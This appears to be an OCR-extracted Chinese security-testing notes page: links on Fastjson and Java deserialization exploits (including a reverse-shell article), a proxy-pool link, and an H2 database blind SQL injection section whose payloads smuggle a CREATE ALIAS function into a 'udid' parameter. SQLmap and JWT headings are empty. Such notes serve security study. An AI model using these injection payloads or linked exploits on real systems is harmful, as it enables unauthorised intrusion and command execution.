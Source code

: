 参考链接：

- **[ysoserial](https://github.com/frohoff/ysoserial)**
- **[Java-Deserialization-Cheat-Sheet](https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet)**
- [Fastjson 反序列化漏洞史](https://paper.seebug.org/1192/)
- [vulnhub](github.com/vulhub/vulhub)
- [fastjson漏洞复现](https://saucer-man.com/information_security/346.html)
- [Fastjson系列四------1.2.25-1.2.47反序列化漏洞（无需开启AutoType）](https://www.mi1k7ea.com/2019/11/11/Fastjson%E7%B3%BB%E5%88%97%E5%9B%9B%E2%80%94%E2%80%941-2-25-1-2-47%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%EF%BC%88%E6%97%A0%E9%9C%80%E5%BC%80%E5%90%AFAutoType%EF%BC%89/)
- [cve-2019-14540-exploit](https://github.com/LeadroyaL/cve-2019-14540-exploit)
- [fastjson 反弹shell](https://www.cnblogs.com/mysticbinary/p/12788019.html)
- [marshalsec](https://github.com/mbechler/marshalsec)
- [fastjson-blacklist](https://github.com/LeadroyaL/fastjson-blacklist)
- [Fastjson 反序列化漏洞史](https://paper.seebug.org/1192/)
- [Java-Deserialization-Cheat-Sheet](https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet)
- [fastjson漏洞复现](https://saucer-man.com/information_security/346.html)
- [vulhub \--
    fastjson/1.2.24-rce](https://github.com/vulhub/vulhub/tvulnhub%20--%20ree/master/fastjson/1.2.24-rce)
- [fastjson 1.2.47
    rce](https://blog.th3wind.xyz/posts/1479992369.html)
- [Fastjson历史漏洞研究（一）](http://blog.topsec.com.cn/fastjson%e5%8e%86%e5%8f%b2%e6%bc%8f%e6%b4%9e%e7%a0%94%e7%a9%b6%ef%bc%88%e4%b8%80%ef%bc%89/)

# 爬虫代理池

1.  [github](https://github.com/jhao104/proxy_pool)

# H2数据库盲注

1.  创建函数:

        method=pullmsg&udid=-2';CREATE ALIAS test AS $$ @CODE void sleeptest() throws Exception{ Thread.sleep(3000);}$$;--

2.  调用函数:

        method=pullmsg&udid=-1';select test();--

3.  命令执行:

        https://mthbernardes.github.io/rce/2018/03/14/abusing-h2-database-alias.html

# SQLmap

1. 指定参数

# JWT(Json Web Token)安全
